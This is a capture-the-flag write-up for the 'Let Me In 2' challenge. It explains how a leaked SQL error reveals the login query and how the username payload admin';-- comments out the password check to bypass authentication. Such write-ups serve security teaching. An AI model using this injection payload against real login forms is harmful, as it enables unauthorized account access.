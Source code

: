 # HackDalton: Let Me In 2 (Writeup)

> Warning! There are spoilers ahead

Upon loading the website you are presented with a simple login screen. 

You can take a SQL Injection approach to this problem. If we type `'` into the username field, we get the following error message:

> An error occured executing query:
> SELECT id FROM users WHERE username = ''' AND password = '';
> 
> unrecognized token: "''' AND password = '';"

We can use this error message to figure out the SQL being used to check the login:

```sql
SELECT id FROM users WHERE username = '' AND password = '';
```

We can then begin to craft a username that would allow us to view the account.

We know that the username is `admin`, so the username must begin with that; however, we don't want the password to be checked, so we should comment out that section of the query. We can use this username:

```
admin';--
```

This would be then be injected:
```sql
SELECT id FROM users WHERE username = 'admin';-- AND password = '';
```

SQL uses `--` as a comment, so nothing after the username field would be parsed, and therefore the password would not be checked.